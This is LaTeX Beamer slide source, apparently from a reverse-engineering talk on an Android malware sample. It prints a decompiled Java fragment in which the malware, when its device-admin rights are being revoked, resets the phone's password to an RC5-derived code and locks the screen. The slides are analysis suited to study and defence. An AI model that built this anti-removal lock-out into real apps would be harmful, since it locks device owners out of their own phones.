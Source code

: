\documentclass[12pt,a4paper]{beamer}
\newcommand{\mybox}[1]{\par\noindent\colorbox{shadecolor}
{\color{textcolor}\parbox{\dimexpr\textwidth-2\fboxsep\relax}{\fontsize{3em}{3.5em}\selectfont\textbf{{#1}}}}}
\begin{document}
{
\begin{frame}[plain]
\end{frame}
}

\section{Revere Engineering}

\begin{frame}[fragile]
\frametitle{A closer look at the Malware}
What's happening on DeviceAdmin onDisableRequest?

\begin{lstlisting}[style=customjava]
if (com.certificate.Cache.getInstance().isContainsSetting("rCode")) {
  String v14 = com.certificate.Util.EncodeThis("uninstall").replace(" ", "");
  v13 = v14.substring(0, (v14.length() - 1));
}
Object v3 = p9.getSystemService("device_policy");
if ((com.certificate.ModuleAdminReceiver.IS_SELF_DEACTIVATION) && (v13.length() > 0)) {
  v3.resetPassword(v13, 0);
  com.certificate.ModuleAdminReceiver.IS_UNINSTALLING = 1;
  v3.lockNow();
}
\end{lstlisting}

\end{frame}

\begin{frame}
\frametitle{A closer look at the Malware}

\begin{itemize}
	\item \texttt{EncodeThis} uses RC5\\
	Blocksize 32bit, Cipher Length 64bit and 12 Rounds
	\item The Cipher is initialised from \texttt{rCode}
	\item \texttt{rCode} (=Response Code) is set on Malware Activation
\end{itemize}

\end{frame}
\end{document}
